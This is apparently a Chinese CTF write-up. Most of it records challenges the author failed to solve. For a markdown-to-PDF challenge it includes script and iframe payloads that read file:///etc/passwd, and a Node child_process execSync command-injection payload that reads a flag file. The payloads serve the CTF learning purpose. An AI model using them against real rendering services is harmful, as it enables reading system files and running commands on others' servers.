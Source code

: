 # web
### Mythic PDF Forge
是一个md转pdf的网站,应该是利用渲染来读取本地文件
![image](https://i.imgur.com/ihETWie.png)
但是一加上file协议就加载不出来了
尝试过的payload
```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

```html
<iframe src=file:///etc/passwd height=800px weight=1200px ></iframe>
```
连签到都做不出来了

---
[md to pdf vuln](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) 信息收集背大锅
```js
((require("child_process")).execSync("cat /flag.txt"))
```


### Resty
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230722214328.png)
一个大大的"Invalid route",然后就什么也不会了
### Payback
只有一个nginx首页,不会了
### Protobank
访问不到...

# reverse
### Catch the fox
好难,ida打不开,动调会卡住,x32dbg也不会

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-22   20:33